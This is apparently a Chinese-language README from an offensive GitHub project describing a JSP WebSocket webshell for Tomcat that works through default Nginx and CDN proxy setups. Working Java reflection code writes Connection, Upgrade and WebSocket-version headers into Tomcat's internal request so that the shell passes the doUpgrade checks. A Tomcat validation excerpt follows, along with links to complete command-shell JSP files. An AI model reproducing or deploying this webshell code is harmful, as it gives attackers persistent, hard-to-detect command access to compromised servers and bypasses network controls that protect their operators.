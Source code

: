 # 无需注入，可以绕过Nginx、CDN代理限制的 WebSocket jsp马

之前提到过可以向 WsServerContainer 容器内 添加ServerEndpointConfig 来注册WebSocket内存马，这样即有好处也有弊端，好处是内存马无落地文件，不好的地方是容易受限制无法使用。于是，我最近改写了下脚本的内容，直接取jsp内的request进行协议升级，从而不需要进行注册路径等操作，增加了HttpServletRequest的Header，使其可以在Nginx代理默认配置下使用

Nginx默认代理配置本身是不支持WebSocket协议的，需要修改 /etc/nginx/conf.d/nginx.conf，增加 proxy_set_header 内容，网上也可以搜到许多资料，其实就是增加了两个文件头，并未做其他处理。

那其实我们完全可以在Server端拦截request自己添加文件头来支持WebSocket

```java
    private void SetHeader(HttpServletRequest request, String key, String value){
        Class<? extends HttpServletRequest> requestClass = request.getClass();
        try {
            Field requestField = requestClass.getDeclaredField("request");
            requestField.setAccessible(true);
            Object requestObj = requestField.get(request);
            Field coyoteRequestField = requestObj.getClass().getDeclaredField("coyoteRequest");
            coyoteRequestField.setAccessible(true);
            Object coyoteRequestObj = coyoteRequestField.get(requestObj);
            Field headersField = coyoteRequestObj.getClass().getDeclaredField("headers");
            headersField.setAccessible(true);
            MimeHeaders headersObj = (MimeHeaders)headersField.get(coyoteRequestObj);
            headersObj.removeHeader(key);
            headersObj.addValue(key).setString(value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    SetHeader(request,"Connection","upgrade");
    SetHeader(request,"Sec-WebSocket-Version","13");
    SetHeader(request,"Upgrade","websocket");
```

通过添加这三个文件头，Tomcat就可以通过后续的doUpgrade校验了

```java
if (!headerContainsToken(req, Constants.CONNECTION_HEADER_NAME,
        Constants.CONNECTION_HEADER_VALUE)) {
    resp.sendError(HttpServletResponse.SC_BAD_REQUEST);
    return;
}
if (!headerContainsToken(req, Constants.WS_VERSION_HEADER_NAME,
        Constants.WS_VERSION_HEADER_VALUE)) {
    resp.setStatus(426);
    resp.setHeader(Constants.WS_VERSION_HEADER_NAME,
            Constants.WS_VERSION_HEADER_VALUE);
    return;
}
key = req.getHeader(Constants.WS_KEY_HEADER_NAME);
if (key == null) {
    resp.sendError(HttpServletResponse.SC_BAD_REQUEST);
    return;
}
```

Tomcat 是通过org.apache.tomcat.websocket.server.UpgradeUtil.doUpgrade 来把http协议升级为WebSocket

那把需要的内容传入进去，即可完成jsp文件连接WebSocket的功能

UpgradeUtil.doUpgrade(container, request, response, configEndpoint, pathParams);

绕过代码：[https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/cmdbypass.jsp](https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/cmdbypass.jsp)
绕过方式二代码：[https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/cmdbypass2.jsp](https://github.com/veo/wsMemShell/blob/main/BypassNginxCDN/cmdbypass2.jsp)
